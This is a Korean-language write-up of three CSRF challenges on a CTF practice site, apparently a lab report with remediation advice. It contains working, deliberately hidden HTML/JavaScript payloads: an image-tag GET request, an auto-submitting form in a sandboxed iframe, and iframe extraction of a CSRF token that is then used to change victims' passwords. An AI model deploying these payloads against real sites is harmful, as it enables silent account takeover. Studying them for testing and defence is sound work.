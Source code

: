 # CSRF Report

## 개요

본 보고서는, 웹 애플리케이션 내 특정 기능에서 발견된 **Cross-Site Request Forgery (CSRF)** 취약점에 대한 분석을 목적으로 작성되었습니다.

총 **3건의 개별 CSRF 취약점이 발견**되었으며, 각각 다른 기능에서 발생하였습니다.

해당 취약점은 공격자가 피해자의 브라우저를 통해 의도하지 않은 요청을 전송하도록 유도함으로써, 설정 변경, 비밀번호 변경 등의 악의적인 행위가 발생할 수 있습니다.

또한 관리자 계정이 공격 대상일 경우 간접적인 권한 상승 효과도 발생할 수 있습니다.

---

## 요약

- 총 발견된 CSRF 취약점: 3건
- 주요 위험 행위:
  - 비밀번호 무단 변경
  - 관리자 기능 요청 유도 가능성
- 보안 취약 원인: 
  - **CSRF Token 미사용**: 일부 기능은 CSRF Token 없이 요청이 처리되어 외부 사이트에서 임의 요청을 전송할 수 있음
  - **Referer 검증 미비**: 요청의 출처에 대한 서버 측 검증이 없어 외부 출처에서도 내부 요청이 가능함
  - **CSRF Token 우회 가능**: 특정 기능은 CSRF Token을 사용하지만, 토큰이 HTML 내에 그대로 노출되어 있으며 `iframe`을 통해 추출 및 악용이 가능함

---

## 내용

### CSRF 1

- 문제 이름: **GET Admin 1**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_1/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **GET 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명:
해당 기능은 사용자 정보를 변경하는 요청을 **HTTP GET 방식으로도 처리하고 있으며**, `CSRF Token`이나 `Referer` 검증 없이
파라미터만으로 사용자의 정보를 변경할 수 있어 외부 요청에 취약한 구조를 가짐.

![CSRF1 burp suite](./screenshots/csrf1_burp_suite.png)

- 공격자는 게시판 기능을 이용해 다음과 같이 **사회공학적 미끼 제목**과 함께 CSRF 공격용 이미지를 삽입함.

페이로드:
```html
<img src="http://ctf.segfaulthub.com:7575/csrf_1/mypage_update.php?id=&info=&pw=1234">
```

![CSRF1 post](./screenshots/csrf1_post.png)


- **공격용 게시글 목록 화면 (페이로드 노출 없음)**  
사용자는 일반 게시글처럼 보여 클릭 유도됨.

![CSRF1 list](./screenshots/csrf1_list.png)

- 관리자가 로그인된 상태로 해당 게시글을 조회할 경우,  
**삽입된 이미지 태그를 통해 자동으로 GET 요청이 전송되며, 사용자의 비밀번호가 공격자가 지정한 값으로 변경됨**.

---

### CSRF 2

- 문제 이름: **GET Admin 2**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_2/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **POST 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명: 해당 기능은 POST 요청으로 사용자 정보를 변경하는 API를 제공하고 있으나, 서버는 `CSRF Token` 검증 또는 `Referer` 검증 없이 요청을 처리함.
이로 인해 공격자가 외부 HTML 문서 내에 자동으로 전송되는 `form`을 작성할 경우, 피해자의 세션을 이용한 비밀번호 변경이 가능함.

![CSRF2 burp suite](./screenshots/csrf2_burp_suite.png)

- 요청 파라미터 중 `id` 값을 빈 문자열(`""`)로 설정하더라도,  
서버는 이를 별도 검증 없이 **현재 로그인된 사용자 세션 기준으로 자동 대체 처리**하는 구조를 가지고 있음.


![CSRF2 post](./screenshots/csrf2_post.png)

페이로드:
```html
<iframe name="frame" sandbox="allow-forms allow-same-origin" style="display:none;"></iframe>

<form action="http://ctf.segfaulthub.com:7575/csrf_2/mypage_update.php" method="POST" target="frame">
  <input type="hidden" name="id">
  <input type="hidden" name="info" value="">
  <input type="hidden" name="pw" value="12345">
</form>

<script>
  document.forms[0].submit();
</script>
```

- 이로 인해 공격자는 사용자의 ID를 몰라도, 단순히 게시글을 열게 만드는 것만으로 **그 사용자의 비밀번호를 변경시킬 수 있으며**,
같은 게시글을 여러 사용자가 열 경우, 
**각각 자신의 계정 기준으로 비밀번호가 바뀌는 광범위한 피해가 발생할 수 있음.**

- 또한 공격자는 `<iframe>`에 `sandbox="allow-forms allow-same-origin"` 옵션을 설정함으로써,  
폼 전송은 허용하면서도 서버 응답 내 JavaScript(alert 등)를 실행하지 않도록 설정 함.

따라서 피해자는 **회원 정보 수정에 성공하셨습니다!** 와 같은 안내 알림이 나타나지 않아,  
**비밀번호가 변경되었음에도 공격 사실을 인지하지 못한 채 CSRF 공격에 노출됨.**

---

### CSRF 3

- 문제 이름: **GET Admin 3**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_3/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **CSRF Token 우회**
- 취약점 심각도: **HIGH**

- 설명:  
해당 기능은 CSRF Token이 적용되어 있지만, `mypage.php` 페이지를 통해 토큰 값을 클라이언트에 노출시키는 구조이며, 서버는 전달된 토큰 값의 유효성만 검증한 뒤 사용자 정보를 수정함.

공격자는 이를 악용하여 다음과 같이 **토큰 값을 사전에 iframe을 통해 추출 후**, 해당 값을 포함한 POST 요청을 자동으로 생성하여 사용자의 정보(비밀번호 등)를 변경할 수 있음.


![CSRF3 burp suite](./screenshots/csrf3_burp_suite.png)

- 공격자는 다음과 같은 구조의 HTML을 게시글에 삽입하여, **사용자가 게시글을 열었을 때 자동으로 토큰 추출 → 정보 변경이 발생하도록 구성**함.

페이로드:
```html
<iframe src="http://ctf.segfaulthub.com:7575/csrf_3/mypage.php?user=user101" id="frame1" style="display:none"></iframe>
<iframe name="frame2" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>
<form action="http://ctf.segfaulthub.com:7575/csrf_3/mypage_update.php" method="POST" target="frame2" style="display:none">
<input name="id" value="">
<input name="info" value="">
<input name="pw" value="123">
<input name="csrf_token" value="">
</form>

<script>
    window.onload = function () {
        const html_frame = document.getElementById("frame1").contentWindow.document;
        const token = html_frame.querySelector('input[name="csrf_token"]').value;
        document.querySelector('input[name="csrf_token"]').value = token;
        document.forms[0].submit();
    }
</script>
```

![CSRF3 post](./screenshots/csrf3_post.png)

- 공격자 페이지에는 시각적으로 아무 것도 표시되지 않으며,
`form`, `iframe` 모두 `display:none` 처리되어 사용자는 공격 사실을 인지할 수 없음.

> 클라이언트 측에서 CSRF Token이 노출되는 구조에서는, 공격자가 `iframe` 등을 이용해 이를 추출하고 자동 요청을 구성함으로써 **Token 기반 방어 로직 또한 우회할 수 있음.**

---

## 대응 방안

- CSRF 방지를 위해 다음과 같은 보안 조치가 필요함:

  - 모든 상태 변경 요청에는 CSRF Token을 포함하고, 해당 토큰을 서버 측에서 검증할 것
  - Referer 또는 Origin 헤더를 기반으로 요청 출처를 검증할 것
  - CSRF Token은 HTML 내에 직접 노출하지 않고, JavaScript 접근이 불가능한 httpOnly Cookie 또는 서버 렌더링 방식으로 처리할 것
  - 요청 메서드(GET → POST) 및 민감한 정보 변경 로직의 접근 제한 강화

- 특히 관리자 계정의 기능 접근 시, CSRF 취약점을 통해 권한 상승이 가능한 구조가 발견되었으므로  
**즉시 수정 및 보완 조치가 필요함**










